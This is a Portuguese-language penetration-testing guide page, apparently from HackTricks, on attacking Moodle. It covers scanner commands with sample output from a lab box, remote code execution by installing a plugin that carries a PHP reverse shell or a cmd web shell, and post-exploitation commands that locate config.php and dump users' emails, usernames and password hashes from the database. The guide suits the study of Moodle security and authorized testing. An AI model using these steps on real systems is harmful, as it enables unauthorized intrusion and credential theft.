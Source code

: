 # Moodle

{{#include ../../banners/hacktricks-training.md}}


## Scans Automáticos

### droopescan
```bash
pip3 install droopescan
droopescan scan moodle -u http://moodle.example.com/<moodle_path>/

[+] Plugins found:
forum http://moodle.schooled.htb/moodle/mod/forum/
http://moodle.schooled.htb/moodle/mod/forum/upgrade.txt
http://moodle.schooled.htb/moodle/mod/forum/version.php

[+] No themes found.

[+] Possible version(s):
3.10.0-beta

[+] Possible interesting urls found:
Static readme file. - http://moodle.schooled.htb/moodle/README.txt
Admin panel - http://moodle.schooled.htb/moodle/login/

[+] Scan finished (0:00:05.643539 elapsed)
```
### moodlescan
```bash
#Install from https://github.com/inc0d3/moodlescan
python3 moodlescan.py -k -u http://moodle.example.com/<moodle_path>/

Version 0.7 - Dic/2020
.............................................................................................................

By Victor Herrera - supported by www.incode.cl

.............................................................................................................

Getting server information http://moodle.schooled.htb/moodle/ ...

server         	: Apache/2.4.46 (FreeBSD) PHP/7.4.15
x-powered-by   	: PHP/7.4.15
x-frame-options	: sameorigin
last-modified  	: Wed, 07 Apr 2021 21:33:41 GMT

Getting moodle version...

Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...


Vulnerabilities found: 0

Scan completed.
```
### CMSMap
```bash
pip3 install git+https://github.com/dionach/CMSmap.git
cmsmap http://moodle.example.com/<moodle_path>
```
### CVEs

Eu descobri que as ferramentas automáticas são bastante **inúteis para encontrar vulnerabilidades que afetam a versão do moodle**. Você pode **verificar** por elas em [**https://snyk.io/vuln/composer:moodle%2Fmoodle**](https://snyk.io/vuln/composer:moodle%2Fmoodle)

## **RCE**

Você precisa ter o papel de **gerente** e você **pode instalar plugins** dentro da aba **"Administração do site"**\*\*:\*\*

![](<../../images/image (630).png>)

Se você for gerente, pode ainda precisar **ativar esta opção**. Você pode ver como no PoC de escalonamento de privilégios do moodle: [https://github.com/HoangKien1020/CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321).

Então, você pode **instalar o seguinte plugin** que contém o clássico pentest-monkey php r**ev shell** (_antes de enviá-lo, você precisa descompactá-lo, mudar o IP e a porta do revshell e compactá-lo novamente_)

{% file src="../../images/moodle-rce-plugin.zip" %}

Ou você poderia usar o plugin de [https://github.com/HoangKien1020/Moodle_RCE](https://github.com/HoangKien1020/Moodle_RCE) para obter um shell PHP regular com o parâmetro "cmd".

Para acessar e lançar o plugin malicioso, você precisa acessar:
```bash
http://domain.com/<moodle_path>/blocks/rce/lang/en/block_rce.php?cmd=id
```
## POST

### Encontrar credenciais do banco de dados
```bash
find / -name "config.php" 2>/dev/null | grep "moodle/config.php"
```
### Extrair Credenciais do banco de dados
```bash
/usr/local/bin/mysql -u <username> --password=<password> -e "use moodle; select email,username,password from mdl_user; exit"
```
{{#include ../../banners/hacktricks-training.md}}
